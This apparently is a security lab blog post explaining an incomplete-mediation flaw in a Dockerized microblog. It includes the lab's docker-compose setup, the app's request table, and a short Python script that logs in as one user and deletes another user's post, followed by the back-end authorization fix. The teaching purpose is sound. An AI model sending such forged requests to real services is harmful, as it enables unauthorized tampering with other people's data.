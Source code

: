 ```yaml
---
layout: post
title: Incomplete Mediation
category: web_security
author: 'reo'
tags: python seclab docker webapp
mathjax: 
---
```


This is an attack which is easily exploited
if the backend does not properly check the authenticated user
before performing an action.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

We require only the service vulnerable to this attack **microblog**, the target **Alice** and
the attacker **Mallory**

```yaml
version: '3'

services:
  microblog:
    image: # private image
    container_name: microblog
    ports:
      - "8080:80"
    networks:
      channel:
        ipv4_address: 10.0.0.2
        
  alice:
    image: # private image
    container_name: alice
    tty: true
    shm_size: '1gb'
    sysctls:
        - net.ipv6.conf.all.disable_ipv6=1
    networks:
      channel:
        ipv4_address: 10.0.0.3
        
  mallory:
      image: # private image
      container_name: mallory
      tty: true
      restart: always
      volumes:
          - .:/shared
      network_mode: service:microblog
      
  wireshark:
    image: # private image
    container_name: wireshark
    tty: true
    network_mode: service:microblog

networks:
  channel:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/24
```

We start the containers with `$ docker-compose up` and open a browser to `http://localhost:8080/`.

Upon the webapp starting, Alice populates it with a post: *Mallory should not be trusted!*.

![webapp initial state](/assets/images/incmed1.png)
{: style="text-indent: 0;"}

<br>

***

## Observations

***

We can use Wireshark or simply the developer's console in our browser to see the requests being sent,
for instance logging in as Mallory we see.

![Firefox dev console](/assets/images/incmed4.png)
{: style="text-indent: 0;"}

With this, we create the following table detailing how each operation is sent to the server.

<div class="xscrollable">
<table>
<thead>
  <tr>
    <th>User Action</th>
    <th>Path</th>
    <th>HTTP method</th>
    <th>Form Data</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td>Sign-in</td>
    <td>/signin.php</td>
    <td>POST</td>
    <td>email, password</td>
  </tr>
  <tr>
    <td>Post message</td>
    <td>/post.php</td>
    <td>POST</td>
    <td>msg</td>
  </tr>
  <tr>
    <td>Delete message</td>
    <td>/delete.php</td>
    <td>DELETE</td>
    <td>id</td>
  </tr>
</tbody>
</table>
</div>

<br>

***

## The Attack

***

For this lab, we will have Mallory delete a post made by Alice
despite the fact that the front-end UI doesn't allow them to.

Since there is no back end authentication for which account is performing
the action, mallory simply needs to sign in and make the appropriate request.
Using our table, we see what the server expects from a legitimate deletion.
We can then automate the process

```python
import os, requests
from urllib.parse import urlencode

PROTOCOL = "http"
HOST = "10.0.0.2"
PORT = "80"
BASE = PROTOCOL + "://" + HOST + ":" + PORT

# Mallory's credentials
mallory = {
    'email': 'mallory@example.com',
    'password': 'pass4mallory'
}

# start a session
with requests.Session() as s:
     # sign-in as mallory (POST request)
     res = s.post(BASE + '/signin.php', data=mallory)
     # delete Alice's message (DELETE request)
     res = s.delete(BASE + '/delete.php', data={'id': '3'})
```

<br>

***

## Conclusion

***

Running our script, we see that Alice's first message has been deleted as expected
despite the fact that Mallory should not have these permissions.
This can be solved quite easily by authenticating the the correct user is in fact logged
in in the back end. A rule of thumb is that the front-end should not be trusted since
it is user-controlled.

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

